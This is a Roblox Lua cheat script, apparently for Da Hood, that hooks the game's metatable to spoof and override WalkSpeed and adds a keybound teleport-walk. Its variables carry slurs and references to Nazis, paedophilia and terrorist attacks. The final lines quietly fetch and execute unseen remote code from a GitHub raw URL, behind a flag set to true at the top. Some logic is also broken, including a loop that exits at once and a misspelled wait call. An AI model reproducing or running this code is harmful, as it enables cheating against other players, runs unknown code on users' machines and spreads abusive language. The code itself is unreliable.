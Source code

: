 repeat wait() until game:IsLoaded() 

getgenv().Fix = true

getgenv().TeclasWS = {
    ["tecla1"] = "M", -- speed +20
    ["tecla2"] = "N", -- speed -20
    ["tecla3"] = "x" -- toggle  
}



-- // servicios
local MININOS_DOXXEADOS = game:GetService("Players")
local AUDIOS_LOUD_DE_TRAP = game:GetService("StarterGui") or "son una mierda"

-- // objetos
local neonazi = MININOS_DOXXEADOS.LocalPlayer
local esvastica = neonazi:GetMouse()

-- // variables
local lista_de_victimas_de_drizzy = getrenv()._G
local da_hood_rblxm_REAL = getrawmetatable(game)
local CP = da_hood_rblxm_REAL.__newindex
local CP_DE_DRIZZY = da_hood_rblxm_REAL.__index
local velocidad_de_cum = 500
local es_pedofilo = true

-- // funciones para acortar codigo :]
function anunciar_atentado_terrorista(fecha_del_atentado)
    AUDIOS_LOUD_DE_TRAP:SetCore("SendNotification",{
        Title="Xlazui#2571",
        Text=fecha_del_atentado,
        Icon="rbxthumb://type=Asset&id=1332213374&w=150&h=150"
       })
end


getgenv().TECHWAREWALKSPEED_LOADED = true


wait(1.5)


anunciar_atentado_terrorista("Welcome"..TeclasWS.tecla3.."")

-- // conexiÃ³n
esvastica.KeyDown:Connect(function(el_impostor)
    if el_impostor:lower() == TeclasWS.tecla1:lower() then
        velocidad_de_cum = velocidad_de_cum + 1
        anunciar_atentado_terrorista(" (speed =   "..tostring(velocidad_de_cum)..")")
    elseif el_impostor:lower() == TeclasWS.tecla2:lower() then
        velocidad_de_cum = velocidad_de_cum - 1
        anunciar_atentado_terrorista(" (speed =  "..tostring(velocidad_de_cum)..")")
    elseif el_impostor:lower() == TeclasWS.tecla3:lower() then
        if es_pedofilo then
            es_pedofilo = false
            anunciar_atentado_terrorista("speed off")
        else
            es_pedofilo = true
            anunciar_atentado_terrorista("speed on")
        end
    end
end)

-- // mi parte favorita: metametodos
setreadonly(da_hood_rblxm_REAL,false)
da_hood_rblxm_REAL.__index = newcclosure(function(BEST_ON_TOP,IS_GARBAGE)
    local esPedofilo = checkcaller()
    if IS_GARBAGE == "WalkSpeed" and not esPedofilo then
        return lista_de_victimas_de_drizzy.CurrentWS
    end
    return CP_DE_DRIZZY(BEST_ON_TOP,IS_GARBAGE)
end)
da_hood_rblxm_REAL.__newindex = newcclosure(function(kaias,ip,logger)
    local unNeonazi = checkcaller()
    if es_pedofilo then
        if ip == "WalkSpeed" and logger ~= 0 and not unNeonazi then
            return CP(kaias,ip,velocidad_de_cum)
        end
    end
    return CP(kaias,ip,logger)
end)
setreadonly(da_hood_rblxm_REAL,true)

repeat wait() until game:IsLoaded()
local Players = game:service('Players')
local Player = Players.LocalPlayer

repeat wait() until Player.Character

local userInput = game:service('UserInputService')
local runService = game:service('RunService')

local Multiplier = -0.22
local Enabled = false
local whentheflashnoiq

userInput.InputBegan:connect(function(Key)
    if Key.KeyCode == Enum.KeyCode.LeftBracket then
        Multiplier = Multiplier + 0.01
        print(Multiplier)
        wait(0.2)
        while userInput:IsKeyDown(Enum.KeyCode.LeftBracket) do
            wait()
            Multiplier = Multiplier + 0.01
            print(Multiplier)
        end
    end

    if Key.KeyCode == Enum.KeyCode.RightBracket then
        Multiplier = Multiplier - 0.01
        print(Multiplier)
        wait(0.2)
        while userInput:IsKeyDown(Enum.KeyCode.RightBracket) do
            wait()
            Multiplier = Multiplier - 0.01
            print(Multiplier)
        end
    end

    if Key.KeyCode == Enum.KeyCode.P then
        Enabled = not Enabled
        if Enabled == true then
            repeat
                game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame + game.Players.LocalPlayer.Character.Humanoid.MoveDirection * Multiplier
                game:GetService("RunService").Stepped:waitn()
            until Enabled == true
        end
    end
end)

if Fix == true then
    loadstring(game:HttpGet("https://raw.githubusercontent.com/youtubetutorials123/helo/main/123"))()
end
